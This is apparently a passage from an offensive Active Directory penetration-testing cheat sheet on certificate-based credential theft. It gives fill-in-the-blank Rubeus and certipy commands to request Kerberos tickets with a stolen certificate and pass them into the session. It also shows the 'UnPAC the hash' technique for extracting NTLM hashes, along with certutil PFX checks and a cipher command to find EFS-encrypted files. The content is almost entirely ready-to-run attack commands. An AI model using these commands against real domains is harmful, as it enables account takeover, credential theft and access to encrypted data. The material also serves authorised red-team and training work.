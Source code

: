 #### Check PFX
```
certutil -v -dump -p <PASSWORD> <PATH TO PFX>
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<USER> /certificate:certandkey.p12 /domain:<DOMAIN> /ptt
```

### THEFT5 Unpac the hash
#### Pass the certificate Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash (Unpac the hash attack)
- Possible to use `/certficiate`  and base64 output
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

```
certipy auth -pfx '<PATH TO cert.pfx>'
```

#### UnPAC the hash attack

```
.\Rubeus.exe asktgt /getcredentials /user:<COMPUTERACCOUNT>$ /certificate:<PATH TO PFX> /password:<PASSWORD OF PFX> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /show
```

```
certipy auth -pfx '<PATH TO cert.pfx>' -dc-ip <DC IP>
```

### Encrypted File System
- EFS can be used to encrypt files. An EFS certificate is required to be imported into the current user's certificate store and permission to modify the target file is required.
- A recovery agent is required to read or recover data encrypted using EFS - The default DA is a recovery agent in a domain
- Microsoft details two methods to perform decryption operations:
	- Retrieve the original EFS certificate used to encrypt the file and import it in the target computer certificate store.
	- Use an EFS DRA certificate to restore an EFS encrypted file if the original EFS certificate used to encrypt the file is lost.

#### Locate encrypted files
- `/h` Displays files with hidden or system attributes. By default, these files are not encrypted or decrypted.
- `/u /n` Finds all encrypted files on the local drive(s). If used with the **/n** parameter, no updates are made.
```
cipher /u /n /h
```
